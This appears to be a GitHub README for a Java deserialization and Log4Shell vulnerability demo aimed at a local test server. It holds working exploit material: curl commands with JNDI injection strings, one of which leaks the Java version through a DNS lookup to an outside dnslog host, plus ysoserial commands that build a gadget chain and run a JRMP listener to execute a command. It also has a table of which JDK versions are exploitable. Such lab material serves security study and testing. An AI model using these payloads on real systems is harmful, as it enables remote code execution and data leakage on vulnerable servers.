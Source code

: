 # java-serialization-vuln-demo

## Payloads
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md)
- [https://dnslog.org/](https://dnslog.org/)


```bash
curl -X POST -d "payload=1" http://127.0.0.1:7070/api/log4j

curl -X POST -d "payload=${jndi:ldap://${sys:java.version}.b0aa7f99.dnslog.biz/a}" http://127.0.0.1:7070/api/log4j
```

## Direct Deserialization Demo

| JRE/JDK                        | RMI             | LDAP            | Direct Deserialization*(3) |
|--------------------------------| --------------- | --------------- | -------------------------- |
| < 8u121, 7u131, 6u141          | Exploitable     | Exploitable     | Exploitable                |
| < 11.0.1, 8u191, 7u201, 6u211  | Exploitable*(1) | Exploitable     | Exploitable                |
| >= 11.0.1, 8u191, 7u201, 6u211 | Exploitable*(1) | Exploitable*(2) | Exploitable                |


(1) - Only if com.sun.jndi.rmi.object.trustURLCodebase=true

(2) - Only if com.sun.jndi.ldap.object.trustURLCodebase=true

(3) - Depends on the target classpath.

### Add gadget to ysoserial
- [https://github.com/qweraqq/ysoserial/tree/custom-gadget-demo](https://github.com/qweraqq/ysoserial/tree/custom-gadget-demo)
- [c806dd36660889a2e99d096f3f394494cf648cd6](https://github.com/qweraqq/ysoserial/commit/c806dd36660889a2e99d096f3f394494cf648cd6)

### Start Server
```bash
# use java8
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CustomGadgetDemo calc | xxd

java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 3000 CustomGadgetDemo "calc"

```

### Payload
```bash
curl -X POST -d "payload=${jndi:rmi://127.0.0.1:3000/aaa}" http://127.0.0.1:7070/api/log4j
```

![](./PoC.jpg)
